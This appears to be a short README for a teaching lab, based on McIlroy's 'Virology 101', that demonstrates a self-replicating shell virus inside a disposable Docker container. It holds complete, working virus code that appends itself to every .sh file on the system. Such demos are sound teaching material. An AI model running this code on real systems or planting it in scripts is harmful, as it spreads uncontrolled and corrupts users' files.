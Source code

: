 # Shell virus

Based on McIlroy's [Virology 101](https://www.cs.princeton.edu/courses/archive/spr09/cos333/virology101.pdf).

Start a lab container that will autodestroy upon exit:

```
docker run --rm -it ubuntu /bin/bash
```

Count the virus population inside the cointainer:

```
find / -type f -iname '*.sh' | xargs grep -l '#virus#' | wc -l
```

Deploy and run the virus inside the container:

```sh
cat << 'EOF' > virus
for i in $(find / -type f -iname '*.sh') #virus#
do
    echo "infecting $i ..."
    grep '#virus#' $i >/dev/null ||
    sed -n '/#virus#/,$p' $0 >>$i
done 2>/dev//null
EOF
chmod u+x virus
./virus
```

Count the virus population inside the cointainer again (see above).
